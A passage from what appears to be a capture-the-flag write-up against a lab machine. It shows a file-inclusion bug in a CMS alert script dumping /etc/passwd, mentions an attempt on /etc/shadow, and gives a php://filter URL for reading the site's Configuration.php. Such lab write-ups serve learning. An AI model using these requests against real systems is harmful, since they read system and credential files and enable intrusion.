 ```c
        }
</script>
<div class="alert_config_field" id="alert" style="z-index:;">
    <div class="btnClose_alert" id="btnClose_alert" onclick="javascript:CloseDefaultAlert();"></div>
        <div class="description_alert" id="description_alert"><b>Field configuration: </b></div>
    <div class="separator" style="margin-bottom:15px;"></div>
    <div id="content_alert" class="content_alert">
        root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:113:121::/var/spool/postfix:/bin/false
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false
    </div>
</div>    
```

...but not something too helpful. I tried this for /etc/shadow as well, but it did not seem to work. I then viewed the exploit once more and tried running the following:

```c
http://10.10.224.214/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
```
